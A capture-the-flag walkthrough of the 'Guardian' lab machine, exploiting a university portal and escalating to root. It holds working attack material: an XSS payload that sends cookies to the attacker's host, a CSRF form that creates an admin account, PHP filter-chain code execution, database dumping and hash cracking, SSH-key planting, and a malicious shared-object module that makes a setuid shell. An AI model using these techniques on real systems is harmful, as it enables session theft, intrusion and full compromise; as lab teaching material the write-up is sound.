









## Overview

I loved this box, because I hated it for the first two days.

It starts with only webserver and ssh exposed. It's a university landing page that leads to a university login. You find through some enumeration a default password is set for a user to gain initial webserver access. Then you navigate around and find the chat feature discloses a bit more than should be allowed, which leads us to finding the source code of the webpage and then finding a CVE that lets us escalate into a lecturer account. We then take advantage of a noticeboard tricking the admin into creating a new admin account. This lets us get into the most complex portion of exploits taking advantage of php filters to create a temp file that gets used in the reports through a parameter which gets us the initial foothold. We dump a database to secure our entry. 

Then we are finally on as user we utilize sudo to see we can run a python program as another user and can edit one portion of the program which lets us laterally move into that user. This user is able to run sudo on an apachectl wrapper which only lets you load configuration files. The configuration files however can load shared objects and that means we have arbitrary code execution in root context, so we can easily get root acccess.

That's a mouthful, let's dive in.

## Initial Recon

### nmap
```
# Nmap 7.97 scan initiated Sat Aug 30 14:23:40 2025 as: nmap -vv -sCV -oA nmap/guardian -Pn -T4 --min-rate 1000 -p- 10.10.11.84
Warning: 10.10.11.84 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.84
Host is up, received user-set (0.13s latency).
Scanned at 2025-08-30 14:23:41 HST for 84s
Not shown: 65342 closed tcp ports (conn-refused), 191 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://guardian.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: _default_; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 30 14:25:05 2025 -- 1 IP address (1 host up) scanned in 84.09 seconds
```

Our nmap scan only shows SSH, and HTTP. So we naturally navigate to the webserver to see what we have to do.

Helper function to add hosts to /etc/hosts

```bash
function add_to_hosts() {
   [[ -z $1 ]] && echo 'Usage: <ip> <domain> to add a box to HTB boxes' && return
   local ip=$1
   local domain=$2
   if grep -q $ip /etc/hosts; then
      sudo sed -i "/$ip/s/[[:space:]]$domain\$//; /$ip/s/\$/ ${domain}/" /etc/hosts
   else
      sudo sed -i "/HTB Boxes/a${ip}  ${domain}" /etc/hosts
   fi
}

add_to_hosts 10.10.11.84 guardian.htb
```


We're presented with a static landing page with some information that might be useful, jot those down for later.


And there's a link to the portal which we need to add that to our hosts as well

```bash
add_to_hosts 10.10.11.84 portal.guardian.htb
```




### guardian.htb  
We can see there's a few options here, but the obvious one is the portal guide. We click this and we find out the default password for students is set as `GU1234`

So we have a password, do we have any users? I won't lie, I forgot to check the landing page the first time I did this and tried to make a brute-force script based on the digit numbers. That does work, but lots of false positives if you overload the server. Attempt a smarter and kinder approach to the server _first_.

Looking the landing page we have:

```
Boone Basden:GU0142023@guardian.htb
Jamesy Currin:GU6262023@guardian.htb
Stephenie Vernau:GU0702025@guardian.htb
```

Just grab the first portion of the email which matches the logins.
The first one we try, Boone with the default password lets us in.


There's a few options here enumerating.

One of the first that I noticed was the Assignments tab; it lets you upload files so obviously a pentester's dream. I however couldn't get anything to work yet, plus I had no idea where it was going when I uploaded it.


The next was the Profile, which at least showed that there were different roles, maybe we could adjust it in the post_request? Even changing the name didn't persist any changes though, so this wasn't the way forward.

Finally, was the chats.

You get this kind of url scheme:
`http://portal.guardian.htb/student/chat.php?chat_users[0]=13&chat_users[1]=14`

Screaming IDOR.

With some probing you can figure out that the admin is user 1 and you can just manually go up from there to see if there's anything interesting.

Alternatively, if you want to be thorough, you can enumerate all the chats:

```python
import asyncio
import aiohttp
from bs4 import BeautifulSoup as bsoup
from rich import print
import aiofiles

MAIN_URL = 'http://portal.guardian.htb/student/'
CHAT_DASHBOARD = 'chats.php'
CHATS = 'chat.php'
COOKIE = ''


def get_names(html_content) -> list[str]:
    """Parses HTML to get usernames."""
    soup = bsoup(html_content, 'html.parser')
    select_tag = soup.find(id='new-chat-user')
    option_tags = select_tag.find_all('option')
    usernames = [option.get_text() for option in option_tags]
    return usernames


def get_messages(html_content):
    """Parses HTML to get messages."""
    soup = bsoup(html_content, 'html.parser')
    chat_bubbles = soup.find_all('div', class_='chat-bubble')

    chat_messages = []
    for bubble in chat_bubbles:
        sender_div = bubble.find('div', class_='text-sm')
        sender_name = sender_div.contents[0].strip()
        message_div = bubble.find('div', class_='text-gray-800')
        message_content = message_div.get_text().strip()

        chat_messages.append({'sender': sender_name, 'msg': message_content})
    return chat_messages


async def fetch_one(session, url, cookie) -> str:
    """An asynchronous function to fetch one URL."""
    async with session.get(url, cookies={'PHPSESSID': cookie}) as response:
        return await response.text()


async def main():
    # Fetch the chat dashboard to get the list of users
    async with aiohttp.ClientSession() as session:
        dash_html = await fetch_one(session, MAIN_URL + CHAT_DASHBOARD, COOKIE)

    users = get_names(dash_html)
    length = len(users)
    print(f'-- Enumerating Chats of {length} users --')

    combinations = []
    for i in range(1, length + 1): # Adjust range to include all users
        for j in range(i + 1, length + 1):
            combinations.append((i, j))

    # Prepare a list of all URLs to fetch
    urls = [MAIN_URL + CHATS + f"?chat_users[0]={combo[0]}&chat_users[1]={combo[1]}" for combo in combinations]

    messages = []
    async with aiohttp.ClientSession() as session:
        # Create a list of all async tasks
        tasks = [fetch_one(session, url, COOKIE) for url in urls]
        # Run all tasks concurrently
        responses = await asyncio.gather(*tasks)

        # Process responses after they are all fetched
        for html_content in responses:
            messages.extend(get_messages(html_content))

    for msg in messages:
        print(msg)


if __name__ == '__main__':
    asyncio.run(main())

```

But the important bit is 1 -> 2, thankfully. 

### gitea.htb - jamil



Which is a great piece of information; 

gitea exists, and we have jamil's credentials hopefully.


```bash
add_to_hosts 10.10.11.84 gitea.guardian.htb
```

Proceed to gitea, and we can explore and click on users just to see what kind of format the usernames might be in if there are any.


We don't see Jamil, but mark is there and his username looks like it's his first name, so we can try jamil:$pass




That works, and we can see the source code for the web pages, beautiful.


Cloning it is probably ideal to comb through it effectively, there's only one commit so there's nothing fancy hiding in there. But some hot picks are the `composer.json` and the `config/config.php`

config.php has some database credentials that could be useful.


This should ring some bells for us, just because we saw we could upload previously in the Assignments. XLSX and DOCX and this library parses it.

#### CVE - 2025-22131
My initial googling brought me here:

[CVE-2025-54370](https://securityonline.info/cve-2025-54370-ssrf-vulnerability-discovered-in-phpspreadsheet-library/)
And [here](https://undercodetesting.com/the-phpspreadsheet-nightmare-how-a-single-ssrf-flaw-threatens-millions-of-enterprise-systems/)

I spent around 2 days chasing this, trying possibly every concoction you could imagine, until someone told me it was actually a different CVE. I was led astray by the fact I was getting connections back to my server so I was close to correct...

Maybe...
[CVE-2025-23210](https://github.com/advisories/GHSA-r57h-547h-w24f)

Sometimes it's probably better to just use the CVE database...
[CVE-Search](https://www.cve.org/CVERecord/SearchResults?query=phpspreadsheet)
Which leads us to the one that worked for me.

[CVE-2025-22131](https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-79xx-vf93-p7cx)

The tldr of the vulnerability is that the library doesn't sanitize spreadsheet names before they get rendered, meaning you can just throw some arbitrary JS in the sheet name and have it get executed in a preview pane.So just make a two sheet spreadsheet and inject to your hearts contect.

As soon as you try this though, on libreoffice for instance, you're limited in character input. On Google docs and excel you're limited through character limits. Luckily though, we don't need these tools to edit workbook names.

Create a random spreadsheet with two sheets and save it somewhere.

```bash
unzip random.xlsx

```
```
$tree
.
├── [Content_Types].xml
├── _rels
└── xl
    ├── drawings
    │   ├── drawing1.xml
    │   └── drawing2.xml
    ├── _rels
    │   └── workbook.xml.rels
    ├── sharedStrings.xml
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    ├── workbook.xml
    └── worksheets
        ├── _rels
        │   ├── sheet1.xml.rels
        │   └── sheet2.xml.rels
        ├── sheet1.xml
        └── sheet2.xml

8 directories, 13 files
```


The sheetnames are actually in the workbook.xml
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:mx="http://schemas.microsoft.com/office/mac/excel/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:x14="http://schemas.microsoft.com/office/spreadsheetml/2009/9/main" xmlns:x15="http://schemas.microsoft.com/office/spreadsheetml/2010/11/main" xmlns:x14ac="http://schemas.microsoft.com/office/spreadsheetml/2009/9/ac" xmlns:xm="http://schemas.microsoft.com/office/excel/2006/main">
  <workbookPr/>
  <sheets>
    <sheet state="visible" name="Sheet1" sheetId="1" r:id="rId4"/>
    <sheet state="visible" name="Sheet2" sheetId="2" r:id="rId5"/>
  </sheets>
  <definedNames/>
  <calcPr/>
</workbook>
```

You can see the names are there, so you can replace one of them with something malicious, just be sure to escape it for the xml.

```bash
echo '<script>window.location="http://$IP:$PORT/c?="+document.cookie;</script>' | python -c 'import sys, xml.saxutils; sys.stdout.write(xml.sax.utils.escape(sys.stdin.read()))'
## Xmlstartlet works as well if you have it
```

And replace that output with one of the names. And zip it back up like nothing happened.

```bash
zip -r TotallyMyBusinessAssignment.xlsx *
```


```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.84 - - [04/Sep/2025 09:51:54] "GET /?cookie=PHPSESSID=a1hlja1tggikigi62a83bdntmg HTTP/1.1" 200 -
10.10.11.84 - - [04/Sep/2025 09:51:54] code 404, message File not found
10.10.11.84 - - [04/Sep/2025 09:51:54] "GET /favicon.ico HTTP/1.1" 404 -

```

And we have a call back with a cookie. This is why you make your cookies HTTPOnly.

We can set our new cookie in the dev tools




### guardian.htb - sammy.treat

Reset our page and we're now `sammy.treat`

Fantastic.

Exploring this, we lose the functionality to upload something, but we gain the ability to create notices. And the helpful dialog says the admin will check the reference link. Which means we might get a click.

If you set up a listener, to test it and input your link, you'll get a callback. But we can't steal cookies this way, since...they'd just be on our server and there's no cookies for our server.

So I tried to find a way to send a link with an embedded get request to make the admin perform an action, just by clicking a link, perhaps sending us a chat with their cookie but the way the chats work, you can't send a chat unless it's in a `POST`. 


However, there's a cross-site request forgery trick that enables you to embed a form on your webpage that can be submitted under the context of the user that does have those cookies. 

I tested this initially with chats to figure out if it's possible and gandering at the source code to see the appropriate endpoint for the admin. It looks a bit like this.

```html
<html>
<body onload="document.forms[0].submit()">
<form action="http://portal.guardian.htb/admin/chat.php?chat_users[0]=1&chat_users[1]=8" method="POST">
      <input type="hidden" name="content" value="Hello from admin!">
</form>
    <p>
      Hello!
    </p>
</body>
</html>

```

We host this up as index.html on our server, so when the admin clicks it, it should post from him to sammy and we should be able to see it in our chats.



And we do!


So digging through the source code I was looking for any post requests that we could use to our advantage
```bash
# ripgrep in portal.guardian.htb/admin
rg 'POST'
chat.php
23:if ($_SERVER['REQUEST_METHOD'] === 'POST') {
24:    $content = $_POST['content'];
126:                <form method="POST" action="">

profile.php
153:                <form method="POST" action="#">
200:                <form method="POST" action="profile.php" class="space-y-4">

notices/create.php
14:if ($_SERVER['REQUEST_METHOD'] === 'POST') {
15:    $title = $_POST['title'];
16:    $content = $_POST['content'];
17:    $reference_link = $_POST['reference_link'];
84:                <form action="create.php" method="POST">

createuser.php
20:if ($_SERVER['REQUEST_METHOD'] === 'POST') {
22:    $csrf_token = $_POST['csrf_token'] ?? '';
28:    $username = $_POST['username'] ?? '';
29:    $password = $_POST['password'] ?? '';
30:    $full_name = $_POST['full_name'] ?? '';
31:    $email = $_POST['email'] ?? '';
32:    $dob = $_POST['dob'] ?? '';
33:    $address = $_POST['address'] ?? '';
34:    $user_role = $_POST['user_role'] ?? '';
113:                <form method="POST" class="space-y-4">

```

The only useful one that seems implemented is the createuser.php

However we need the csrf_token, which could be a problem. We can investigate how that potentially gets evaulated.

```php
#creatuser.php
$userModel = new User($pdo);

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

    $csrf_token = $_POST['csrf_token'] ?? '';

    if (!is_valid_token($csrf_token)) {
        die("Invalid CSRF token!");
    }


## config/csrf-tokens.php

$global_tokens_file = __DIR__ . '/tokens.json';

function get_token_pool()
{
    global $global_tokens_file;
    return file_exists($global_tokens_file) ? json_decode(file_get_contents($global_tokens_file), true) : [];
}

function add_token_to_pool($token)
{
    global $global_tokens_file;
    $tokens = get_token_pool();
    $tokens[] = $token;
    file_put_contents($global_tokens_file, json_encode($tokens));
}

function is_valid_token($token)
{
    $tokens = get_token_pool();
    return in_array($token, $tokens);
}


```
We can see it checks for valid tokens in the token pool, not specifically for the webpage you're on. So if we can find another csrf_token then we can just pass that in our request while it's still in the pool. So we can potentially create a new admin account.

Where are we getting the token? If you capture the response before you submit the notice, you'll find we have one right at our disposal.





The new payload:
```html
<html>
<body onload="document.forms[0].submit()">
<form action="http://portal.guardian.htb/admin/createuser.php" method="POST">
      <input type="hidden" name="csrf_token" value="378d453340a6d44936750bab5155e2b3">
      <input type="hidden" name="username" value="meow">
      <input type="hidden" name="password" value="GU1234">
      <input type="hidden" name="full_name" value="im_admin">
      <input type="hidden" name="email" value="meow@guardian.htb">
      <input type="hidden" name="dob" value="1990-01-01">
      <input type="hidden" name="address" value="meow lane">
      <input type="hidden" name="user_role" value="admin">
</form>
    <p>
      Hello!
    </p>
</body>
</html>
```


And to verify without logging out, you can just check the chats and see the new user pop up.

We can then login!
### guardian.htb - admin

But..what does this give us?

I combed through the source code pretty well before this point actually, and I had a hunch it had to do something with the reports, because there's this snippet

```php
$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

#...snip
            </div>
           
            <?php include($report); ?>
            
        </div>


```

It uses a regex to try and prevent you from loading anything but you have alot of potential before the specific ones they want you to include. So the question is, is there anyway to get a file on this server and perhaps name it as `_academic.php` or something? No, there's not. We can't actually get a real file there. However, there are some php filter tricks. I initially tried data:// but you'd need your php to allow streaming.

#### PHP Filter Magic
So I googled and [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-php-filters.html) came to the rescue.

> This writeup explains that you can use php filters to generate arbitrary content as output. 
> Which basically means that you can generate arbitrary php code for the include without needing to write it into a file.

That's exactly what we need.

How this works is actually gnarly and feels like magic, and just reading it doesn't really give you any idea as to why this works.

My gist understanding of it after snooping around, seems to be that usage of `php://temp` is a special stream wrapper that you're writing to with these chains. The goal is to decode base64 into raw php code, but you can't just echo base64 content into php filters and decode it. So you're going through this clever process of filters to build a valid base64 string that will get decoded into arbitrary php code inside of `php://temp` that then gets included.


Thankfully, this isn't a manual process.
[filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

I made some adjustments to it, to make the payload completely copy/pasteable because, it's huge.
I changed these two lines.
```python
file_to_use = "php://temp+academic.php"

final_payload = f"http://portal.guardian.htb/admin/reports.php?report=php://filter/{filters}/resource={file_to_use}"
```

We can then run our test with `phpinfo()`

```bash
python filchains.py --chain '<?php phpinfo(); ?>' 
# I'm saving you from the output, but it's 4198 characters
```




Fantastic, now we can just get a reverse shell and dump that database that we knew about so long ago...
But initially I had annoyance with the quotations you have to deal with, so you can get a rev shell or with the knowledge of having gone through the box, we can just dump the database here.

```bash
python filchains.py --chain '<?php system("mysqldump -u root -pGu4rd14n_un1_1s_th3_b3st guardiandb") ?>'
```

And you can find the users table.


We read from the createuser.php that these are `SHA256` and the config.php shows the salt.

Copy the whole table from'INSERT INTO VALUES' and we can set it up for hashcat usage.

```bash
tr '(' '\n' < user.dump | awk -F',' '{print $2":"$3":8Sb)tM1vs1SS"}' | tr -d "'" | head -n -1 > users.hashes
hashcat users.hashes /seclists/rockyou.txt -m 1410
```
```
admin:694a63de406521120d9b9<<<<<<<<<<<<<<<<<<<<<<<<<7cb730f7da535fd6d6:8Sb)tM1vs1SS:<redacted>
jamil.enockson:c1d8dfaeee10<<<<<<<<<<<<<<<<<<<<<<<<<5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS:<redacted>

```
We got admin and our good ol friend jamil.
I don't know who admin is, but let's just say I know it's not root.
Let's try jamil for ssh

## Foothold & Lateral Movement

### Shell as jamil



And immediately doing some simple enumeration we have a pivot point for the mark user likely.

The sudo -l output reveals we can run arbitrary python code under his user context, since our user has write permission on the file.

I used an ssh key, kind of in this manner to get an ssh key we have into his authorized keys
```bash
echo 'os.system("mkdir -p /home/mark/.ssh && echo $ssh_key > /home/mark/.ssh/authorized_keys && chmod 600 /home/mark/.ssh/authorized_keys )' >> /opt/scripts/utilities/utils/status.py
```


Ran the program 
```bash
sudo -u mark /opt/scripts/utilities/utilities.py system-status
System: Linux 5.15.0-152-generic
CPU usage: 0.0 %
Memory usage: 32.5 %
```


And ssh'd into mark

### Shell as mark & path to root



Now we have a non standard binary. It looks to be wrapper around `apache2ctl` since if you can run sudo with that, you can perform arbitrary file reads and such. So they tried to prevent that by only allowing us a configuration file to load in a specific directory.

I had no idea at the time, even having gone through some apache confs before but they actually can be specified to load modules, and modules are just fancy ways to say 'someone elses code' It's a little harder to realize because they're all separately loaded:
```conf
# Include module configuration:
IncludeOptional mods-enabled/*.load
IncludeOptional mods-enabled/*.conf
```
And inspecting the .load of one them you'll see
```conf
LoadModule actions_module /usr/lib/apache2/modules/mod_actions.so
```

So we need a .so to load our malicious goodness

```c
#include <stdlib.h>

// This function runs when the library is loaded
__attribute__((constructor))
void on_load() {
   system("cp /bin/bash /tmp/groot && chmod +s /tmp/groot");
}

```


```bash
gcc -fPIC -shared -o groot.so groot.c
echo 'LoadModule groot /home/mark/groot.so' >> confs/notmalicious.conf
sudo safeapache2ctl -f confs/notmalicious.conf
/tmp/groot -p
```

And that gives you the keys to the kingdom.


